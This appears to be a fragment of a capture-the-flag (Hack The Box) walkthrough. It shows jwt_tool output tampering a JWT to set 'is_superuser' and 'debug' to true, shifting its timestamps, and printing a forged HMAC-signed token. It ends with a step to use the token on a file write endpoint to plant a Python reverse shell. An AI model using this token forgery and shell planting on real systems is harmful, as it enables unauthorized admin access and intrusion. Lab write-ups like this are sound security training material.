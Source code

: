 ```bash
> debug
Please enter new value for debug and hit ENTER
> true
[1] type = "access_token"
[2] exp = 1662257681    ==> TIMESTAMP = 2022-09-03 22:14:41 (UTC)
[3] iat = 1661566481    ==> TIMESTAMP = 2022-08-26 22:14:41 (UTC)
[4] sub = "12"
[5] is_superuser = True
[6] guid = "8c289603-7ba5-4dcc-9f7b-50c7a248984b"
[7] debug = True
[8] *ADD A VALUE*
[9] *DELETE A VALUE*
[10] *UPDATE TIMESTAMPS*
[0] Continue to next step

Please select a field number:
(or 0 to Continue)
> 10
Timestamp updating:
[1] Update earliest timestamp to current time (keeping offsets)
[2] Add 1 hour to timestamps
[3] Add 1 day to timestamps
[4] Remove 1 hour from timestamps
[5] Remove 1 day from timestamps

Please select an option from above (1-5):
> 2
[1] type = "access_token"
[2] exp = 1662261281    ==> TIMESTAMP = 2022-09-03 23:14:41 (UTC)
[3] iat = 1661570081    ==> TIMESTAMP = 2022-08-26 23:14:41 (UTC)
[4] sub = "12"
[5] is_superuser = True
[6] guid = "8c289603-7ba5-4dcc-9f7b-50c7a248984b"
[7] debug = True
[8] *ADD A VALUE*
[9] *DELETE A VALUE*
[10] *UPDATE TIMESTAMPS*
[0] Continue to next step

Please select a field number:
(or 0 to Continue)
> 0
jwttool_fc633c1fb1145a5ee7ea6d1b11cf3df8 - Tampered token - HMAC Signing:
[+] eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNjYyMjYxMjgxLCJpYXQiOjE2NjE1NzAwODEsInN1YiI6IjEyIiwiaXNfc3VwZXJ1c2VyIjp0cnVlLCJndWlkIjoiOGMyODk2MDMtN2JhNS00ZGNjLTlmN2ItNTBjN2EyNDg5ODRiIiwiZGVidWciOnRydWV9.d_OkCVdfSiBWs3ZU3O2Nn9VahzdRwO3oPYt7Y_KAtsc
```

Leverage the forged JWT to interact with the file write endpoint and write a Python reverse shell to `/home/htb/base64.py`.
